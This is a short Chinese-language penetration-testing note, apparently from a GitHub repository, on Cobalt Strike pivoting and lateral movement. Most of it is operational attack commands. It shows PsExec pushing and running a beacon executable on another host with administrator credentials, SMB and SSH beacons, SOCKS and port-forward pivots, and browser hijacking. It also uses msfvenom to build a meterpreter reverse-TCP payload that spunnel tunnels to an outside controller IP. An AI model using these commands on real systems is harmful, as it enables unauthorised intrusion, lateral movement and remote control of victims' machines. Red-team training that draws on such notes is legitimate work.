   #### 权限机中转
	Pivoting ->Listener新建一条已有权限机器的监听器
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/233.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/234.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/235.png)

	选择 Attacks->Packages->Windows Executable(Stageless) 
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/236.png)

	上传生成的payload到已上线的目标机中，上传PsExec.exe
	beacon>shell C:\psexec.exe -accepteula \\10.1.1.105 -u administrator -p xxx -d -c C:\beacon.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/237.png)
  #### SMB_beacon
	新建监听器(bind)windows/beacon_smb/bind_pipe
	执行
	>psexec 机器名 ADMIN$/c$ bind
  #### SSH login
	>ssh 10.1.1.98:22 root admin
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/238.png)

	在你的 teamserver 的给定端口上启动一个 SOCKS 服务器，通过指定的 Beacon 传输流量。 在 /etc/proxychains.conf 中设置 teamserver/port 配置以方便使用		
	beacon > socks [PORT]
	通过指定的 Internet Explorer 进程代理浏览器流量
	beacon > browserpivot [pid] [x86|x64]

	绑定到 Beacon 主机上的指定端口，并将任何传入的连接转发到被转发的主机和端口
	beacon > rportfwd [bind port] [forward host] [forward port]

	spunnel : 生成一个代理并创建一个到其控制器的反向端口转发隧道
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
	beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

	spunnel_local: 生成一个代理并创建一个反向端口转发，通过您的 Cobalt Strike 客户端隧道传输到其控制器
	然后你可以在你的 MSF multi handler上处理连接
	beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin